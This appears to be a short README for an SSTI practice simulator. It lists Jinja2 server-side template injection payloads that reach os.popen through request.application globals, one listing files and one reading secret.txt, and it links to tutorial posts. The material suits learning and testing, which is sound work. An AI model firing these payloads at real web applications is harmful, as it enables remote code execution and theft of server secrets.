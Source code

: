 # ssti_simulator

## Remote Code Execution through SSTI request.application
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}

## Remote Code Exection through SSTI String class eg: `"".__class__`
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
